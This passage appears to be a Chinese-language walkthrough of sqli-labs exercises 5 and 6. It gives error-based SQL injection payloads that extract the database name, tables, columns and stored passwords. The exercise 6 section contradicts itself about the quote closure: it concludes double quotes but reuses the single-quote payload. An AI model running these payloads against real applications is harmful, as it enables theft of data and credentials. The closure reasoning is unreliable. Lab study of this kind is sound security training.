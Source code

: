 __很显然他是会返回错误信息的__

因此套用报错注入的公式
```
?id=-1'union select count(*),1, concat('~',(select database()),'~',floor(rand()*2)) as a from information_schema.tables group by a--+
```

![image](https://user-images.githubusercontent.com/76896357/114830420-c195b500-9dfe-11eb-9751-5910d2262d7e.png)

* 查表：
```
?id=-1'union select count(*),1, concat('~',(select table_name from information_schema.tables where table_schema=database() limit 3,1),'~',floor(rand()*2)) as a from information_schema.tables group by a --+//同时带有随机性
```
![image](https://user-images.githubusercontent.com/76896357/114836284-12101100-9e05-11eb-8a85-450af27666ee.png)

* 查列：
```
?id=-1' union select count(*),1, concat('~',(select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 2,1),'~',floor(rand()*2)) as a from information_schema.tables group by a --+
```
![image](https://user-images.githubusercontent.com/76896357/114838451-4edd0780-9e07-11eb-8841-55c6c4a4e235.png)

* 查字段：
```
?id=-1' union select count(*),1, concat('~',(select password from security.users limit 1,1),'~',floor(rand()*2)) as a from information_schema.tables group by a --+
```

![image](https://user-images.githubusercontent.com/76896357/114838875-ba26d980-9e07-11eb-9917-1745abca7181.png)


**建议：背下公式，concat里面的内容是要修改的查询语句**//存在一定的概率问题，当出现YOU are in。。。时，多试几次

## 6. “报错注入

看到这就感觉和第五题应该差不多

* 查看他的闭合方式
```
?id=1') and 1=2 --+ //1=1时不会报错，1=2时报错
```
![image](https://user-images.githubusercontent.com/76896357/114840558-7fbe3c00-9e09-11eb-8126-f3ce73b2abfb.png)

可以看出他的闭合方式是双引号

* 其实在这里之前我先输如的是‘和” 发现’的时候会返回Yuo are in。。。“的时候发现没有回显，就可以知道他的闭合方式是”“

* 查库：
```
?id=-1'union select count(*),1, concat('~',(select database()),'~',floor(rand()*2)) as a from information_schema.tables group by a--+
```
![image](https://user-images.githubusercontent.com/76896357/114841918-edb73300-9e0a-11eb-9f3c-ba9ec6ae63df.png)
